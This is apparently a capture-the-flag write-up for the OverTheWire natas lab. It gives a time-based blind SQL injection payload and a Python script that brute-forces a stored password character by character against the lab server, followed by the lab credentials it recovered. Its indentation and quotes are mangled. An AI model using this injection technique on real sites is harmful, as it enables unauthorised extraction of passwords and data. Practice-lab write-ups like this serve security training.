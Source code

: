 # natas18

MySQL Injection Code:

```sql
N0tAC0ntent” union select 1,if ((select password from users where CHAR_LENGTH(password)=32 limit 0,1) like binary “%”,sleep(2),1)
```

There’re 4 passwords in table users with length 32 and they’re all different (tested with “DISTINCT”).

```python
import httplib,datetime
from base64 import b64encode
from urllib import quote

def checkPassword(password):
httpClient = None
try:
sql=’N0tAC0ntent” union select 1,if ((select password from users where CHAR_LENGTH(password)=32 limit 3,1) like binary “‘+password+’%”,sleep(0.5),1) — ‘ # change “3” from 0-3 to select which password to guess
startDatetime = datetime.datetime.now()
userAndPass = b64encode(b”natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass }
httpClient = httplib.HTTPConnection(‘natas17.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?debug=a&username=’+quote(sql), headers=headers)
response = httpClient.getresponse()
#print response.read()
endDatetime = datetime.datetime.now()
if int((endDatetime-startDatetime).microseconds) >= 600000: # change “600000” to fit the current latency of network (over 500000 as 0.5s but not too high)
return True
else:
return False
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def autocheck(currentpass):
passbook=”ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789″
if checkPassword(currentpass):
print currentpass
if len(currentpass)==32:
print “Possible Result:”+currentpass
return
for item in passbook:
autocheck(currentpass+item)

password=””
autocheck(password)
```

0:0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd (not this one)
1:MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 (not this one)
2:VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD (not this one)
3:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP (Real password)

Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP